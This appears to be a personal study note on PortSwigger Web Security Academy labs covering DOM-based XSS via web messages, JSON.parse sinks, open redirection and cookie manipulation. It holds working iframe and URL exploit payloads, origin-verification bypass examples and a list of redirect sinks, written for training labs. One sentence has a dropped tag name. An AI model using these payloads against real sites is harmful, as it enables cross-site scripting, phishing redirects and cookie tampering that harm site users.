

# PortSwigger-DOM-Based-Vulnerabilities
## What is DOM
Source and sink
## Taint flow vulns
### Reflected XSS
### Stored XSS
### Web messages
In this section, we'll look at how web messages can be used as a source to exploit DOM-based vulnerabilities on the recipient page. We'll also describe how such an attack is constructed, including how common origin-verification techniques can often be bypassed.

If a page handles incoming web messages in an unsafe way, for example, by not verifying the origin of incoming messages correctly in the event listener, properties and functions that are called by the event listener can potentially become sinks. For example, an attacker could host a malicious `iframe` and use the `postMessage()` method to pass web message data to the vulnerable event listener, which then sends the payload to a sink on the parent page. This behavior means that you can use web messages as the source for propagating malicious data to any of those sinks. 

__POC__
 Consider the following code:
```js
<script>
window.addEventListener('message', function(e) {
  eval(e.data);
});
</script>
```
This is vulnerable because an attacker could inject a JavaScript payload by constructing the following iframe:
```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```
As the event listener does not verify the origin of the message, and the `postMessage()` method specifies the targetOrigin `"*"`, the event listener accepts the payload and passes it into a sink, in this case, the `eval()` function. 

#### Lab: DOM XSS using web messages

We can see the sink being `innerHTML` attribute in the script embedded:
```js
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
Remmber: innerHTML does not allow `<script>` tag, so we circumvent this with `` tag
__Exploit payload__
```html
<iframe src="https://0a0400b103a68d76806903d2005400ab.web-security-academy.net" onload="this.contentWindow.postMessage('', '*')">
```

#### Lab: DOM XSS using web messages and a JavaScript URL
Sink:
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
`location.href` sink => `javascript:` protocol

The sanitization is there, but it is implemented loosely.`https:` or `http:` string can be anywhere within the data to pass the validation
```html
<iframe src="https://0a8f003c04be12548039d669006400bc.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()//http:', '*')">
```

#### Lab: DOM XSS using web messages and `JSON.parse`
__POC__

 Even if an event listener does include some form of origin verification, this verification step can sometimes be fundamentally flawed. For example, consider the following code:
 ```js
window.addEventListener('message', function(e) {
    if (e.origin.indexOf('normal-website.com') > -1) {
        eval(e.data);
    }
});
```
The `indexOf` method is used to try and verify that the origin of the incoming message is the normal-website.com domain. However, in practice, it only checks whether the string "normal-website.com" is contained anywhere in the origin URL. As a result, an attacker could easily bypass this verification step if the origin of their malicious message was `http://www.normal-website.com.evil.net`, for example.

The same flaw also applies to verification checks that rely on the startsWith() or endsWith() methods. For example, the following event listener would regard the origin `http://www.malicious-websitenormal-website.com` as safe:
```js
window.addEventListener('message', function(e) {
    if (e.origin.endsWith('normal-website.com')) {
        eval(e.data);
    }
});
```

__Solution__

Sink

```html
<script>
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
</script>
```
As observed, when the parsed JSON object contains the key-value pair `"type": "load-channel"`, execution reaches the sink `ACMEplayer.element.src`. This enables us to inject `javascript:print()` into the value of the url key, which is then assigned to the iframe's `src` attribute.


__Exploit payload__

The exploit has to survive three separate parsing layers, each with its own quoting rules:

- HTML attribute parsing — the onload attribute value is delimited by quotes.

- JavaScript string parsing — the argument to postMessage() is a string literal.

- JSON parsing — JSON.parse() requires double quotes around keys and string values.


```html
<iframe src="https://0ae1006d0318989680952b04009f00af.web-security-academy.net" onload='this.contentWindow.postMessage(`{"type": "load-channel", "url":"javascript:print()"}`, `*`)'>
```



An alternative is to escape the double quotes in the JSON string:

```html
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```
### DOM-based open redirection
DOM-based open-redirection vulnerabilities arise when a script writes attacker-controllable data into a sink that can trigger cross-domain navigation. For example, the following code is vulnerable due to the unsafe way it handles the `location.hash` property:
```
let url = /https?:\/\/.+/.exec(location.hash);
if (url) {
  location = url[0];
}
```
An attacker may be able to use this vulnerability to construct a URL that, if visited by another user, will cause a redirection to an arbitrary external domain.

#### Lab: DOM-based open redirection
The "Back to Blog" link contains insecure redirection logic: it extracts the `url=` value from the current URL via a regex and assigns it directly to `location.href`, redirecting the user to any `http(s)://` location without validating the destination origin.
```html
<a href="#" onclick="returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : &quot;/&quot;">Back to Blog</a>
```
__Exploit payload__

The payload appends `&url=https://exploit-...exploit-server.net` to a legitimate post URL. When the victim clicks "Back to Blog", the regex matches the `url=` value and redirects them to the attacker-controlled server.
```
https://0a8100a503f36179846d9f1c0051007a.web-security-academy.net/post?postId=5&url=https://exploit-0a23001b0312610884dd9ebb017c007f.exploit-server.net
```


>In real-world scenarios, these attacks are typically executed through phishing campaigns that lure victims into clicking a malicious link.
#### Which sinks can lead to DOM-based open-redirection vulnerabilities?
The following are some of the main sinks can lead to DOM-based open-redirection vulnerabilities: 
```
location
location.host
location.hostname
location.href
location.pathname
location.search
location.protocol
location.assign()
location.replace()
open()
element.srcdoc
XMLHttpRequest.open()
XMLHttpRequest.send()
jQuery.ajax()
$.ajax()
```
#### Prevent DOM Based open redirection
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

### DOM-based cookie manipulation
__POC__

 Some DOM-based vulnerabilities allow attackers to manipulate data that they do not typically control. This transforms normally-safe data types, such as cookies, into potential sources. DOM-based cookie-manipulation vulnerabilities arise when a script writes attacker-controllable data into the value of a cookie.

An attacker may be able to use this vulnerability to construct a URL that, if visited by another user, will set an arbitrary value in the user's cookie. Many sinks are largely harmless on their own, but DOM-based cookie-manipulation attacks demonstrate how low-severity vulnerabilities can sometimes be used as part of an exploit chain for a high-severity attack. For example, if JavaScript writes data from a source into document.cookie without sanitizing it first, an attacker can manipulate the value of a single cookie to inject arbitrary values:
```
document.cookie = 'cookieName='+location.hash.slice(1);
```
If the website unsafely reflects values from cookies without HTML-encoding them, an attacker can use cookie-manipulation techniques to exploit this behavior. 

#### Lab: DOM-based cookie manipulation
__POC__

```
window.location = current page URL
```
The application exposes a client-side cookie manipulation vulnerability on product pages. The following script runs on each product page:

```js
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

The attack requires two sequential navigations:

- Poison the cookie — Load a product URL containing an HTML breakout payload appended to the query string. The page's script writes the full URL (including the payload) into lastViewedProduct.

- Trigger the sink — Navigate to the home page. The server renders the "Last viewed product" link using the poisoned cookie value, causing the payload to escape the href attribute and execute.

Because the two steps must occur in order, an `<iframe>` with an onload handler is used to guarantee sequencing: the iframe first loads the poisoned product URL, then rewrites its own src to the home page once loading completes.

__Payload__
```js
<iframe src="https://LAB-ID.web-security-academy.net/product?productId=2&'><script>print()</script>"
        onload="this.src='https://LAB-ID.web-security-academy.net/'">
</iframe>
```

- The & in the URL is HTML-entity-encoded to `&amp;`, which is expected and does not impede the attack.

- The presence of the single quote ' causes the server-side rendering logic to terminate the href attribute early (closing it with " immediately after &amp;), placing the subsequent `<script>`tag outside the attribute context. Once outside, the browser parses `<script>` as a legitimate HTML element and executes it.

Without the `,` the entire payload remains inside the href value and is treated as inert text — the script does not execute. The `'` therefore acts as a rendering trigger rather than a conventional attribute breakout character, and its effectiveness depends on the specific server-side rendering behavior. This underscores the importance of inspecting the rendered HTML rather than applying payload patterns mechanically.


> Common sink: document.cookie
## DOM Clobbering (Expert)